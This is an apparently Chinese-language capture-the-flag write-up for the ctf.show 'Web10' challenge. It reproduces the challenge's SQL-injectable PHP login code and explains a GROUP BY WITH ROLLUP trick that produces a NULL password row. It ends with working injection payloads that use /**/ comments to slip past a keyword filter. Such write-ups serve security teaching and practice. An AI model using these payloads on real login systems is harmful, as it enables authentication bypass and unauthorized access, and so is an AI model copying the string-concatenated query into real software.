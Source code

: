 ```yaml
---
title: "Web10  @WEB"
date: 2023-07-24
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 已经告诉了解题方法，根据提示解题即可

①.点取消，得源码②.虚拟表绕过

![](/ctf.show/17/1.webp)

1、下载源码

```php
<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
							echo "登陆成功<br>";
							echo $flag;
						}
				 }
		}
?>	
#源码中先根据用户名查询用户信息, 用户名通过以后, 再判断密码是否相同, 我们绕过用户名的过滤条件, 在使用 with rollup注入绕过密码
```

2、

```
with rollup 可以对 group by 分组结果再次进行分组,并在最后添加一行数据用于展示结果( 对group by未指定的字段进行求和汇总, 而group by指定的分组字段则用null占位)
```

我们使用万能用户名使SQL成立绕过用户名之后, 后台的SQL会查询出所有的用户信息, 然后依次判断查询处的用户名对应的密码和我们输入的密码是否相同, 这时候我们使用with rollup 对 group by 分组的结果再次进行求和统计, 由于with rollup 不会对group by 分组的字段( password)进行统计, 所以会在返回结果的最后一行用null来填充password, 这样一来我们的返回结果中就有了一个值为null的password , 只要我们登录的时候password输入框什么都不输, 那我么输入的password的值就是null, 跟查询出的用户密码相同( null == null), 从而登录成功

```sql
 a'/**/or/**/true/**/# 
```

3、使用下面的payload，拿到flag

```sql
a'/**/or/**/true/**/group/**/by/**/password/**/with/**/rollup/**/#
```

![](/ctf.show/17/2.webp)